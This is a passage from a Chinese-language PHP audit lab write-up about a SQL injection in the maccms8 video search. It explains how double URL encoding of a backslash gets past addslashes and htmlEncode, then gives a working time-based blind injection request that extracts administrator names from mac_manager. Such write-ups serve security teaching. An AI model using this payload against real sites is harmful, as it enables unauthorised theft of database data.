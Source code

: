 而 **wd** 是可以从 **REQUEST** 中获取到，所以这里的 **wd** 实际上是可控的。

## 漏洞验证

现在我们需要针对漏洞进行验证工作，这就涉及到POC的构造。在前面分析中，我们知道 **htmlEncode** 针对 **&** 、 **'** 、 **空格** 、 **"** 、 **TAB** 、 **回车** 、 **换行** 、 **大于小于号** 进行实体编码转换。但是这里的注入类型是字符型注入，需要引入单引号来进行闭合，但是 **htmlEncode** 函数又对单引号进行了处理。因此我们可以换个思路。

我们看到注入攻击的时候，我们的 **$lp['wd']** 参数可以控制SQL语句中的两个位置，因此这里我们可以通过引入 **反斜杠** 进行单引号的闭合，但是针对前面的分析我们知道其调用了 **addslashes** 函数进行转义处理，而 **addslashes** 会对 **反斜杠** 进行处理，但是这里对用户请求的参数又会先进行 **url解码** 的操作，因此这里可以使用 **双url编码** 绕过 **addslashes** 函数。

![12](CTF%20总结/PHP-Audit-Labs/Part1/Day13/files/12.png)

```http
POST /maccms8/index.php?m=vod-search HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Connection: keep-alive
Upgrade-Insecure-Requests: 1

wd=))||if((select%0b(select(m_name)``from(mac_manager))regexp(0x5e61)),(`sleep`(3)),0)#%25%35%63
```

![14](CTF%20总结/PHP-Audit-Labs/Part1/Day13/files/14.png)
